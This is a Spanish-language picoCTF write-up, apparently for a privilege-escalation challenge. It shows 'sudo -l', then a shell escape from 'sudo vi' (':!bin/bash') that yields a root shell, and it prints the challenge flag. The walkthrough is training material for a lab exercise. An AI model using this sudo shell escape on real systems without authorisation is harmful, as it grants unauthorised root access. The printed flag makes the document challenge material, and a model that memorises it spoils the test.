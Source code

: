 ## Objetivo
Can you read files in the root file?

Additional details will be available after launching your challenge instance.

## Solución
```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi test
```
Al estar en vi agregamos el comando                                                                                                                                                                                                                                       
~                                                                                                                                                                                                                                          
~                                                                                                                                                                                                                                          
:!bin/bash
y enter
```
root@challenge:/home/picoplayer# whoami
root
root@challenge:/home/picoplayer# ls
root@challenge:/home/picoplayer# cd /root
root@challenge:~# ls
root@challenge:~# cd /root/
root@challenge:~# ls
root@challenge:~# ls -la
total 16
drwx------ 1 root root   22 Sep 14 04:34 .
drwxr-xr-x 1 root root   63 Sep 14 04:25 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  803 Sep 14 04:34 .viminfo
root@challenge:~# cat ./flag.txt
cat: ./flag.txt: No such file or directory
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
```
## Notas adicionales
**sudo -l** en Linux se utiliza para listar los privilegios de `sudo` que tiene el usuario actual. Muestra los comandos que el usuario está autorizado a ejecutar como superusuario o como otros usuarios específicos.

El comando **sudo vi test** en Linux hace lo siguiente:
	**`sudo`**: Ejecuta el siguiente comando con privilegios de superusuario (root), lo que te permite editar archivos que requieren permisos elevados.    
	**`vi`**: Es un editor de texto de línea de comandos que permite abrir y editar archivos. `vi` es un editor muy básico, pero potente, utilizado frecuentemente en sistemas Linux y Unix.    
	**`test`**: Es el nombre del archivo que quieres abrir. Si el archivo `test` ya existe, `vi` lo abrirá para editarlo. Si no existe, `vi` creará un nuevo archivo con ese nombre.


## Referencias
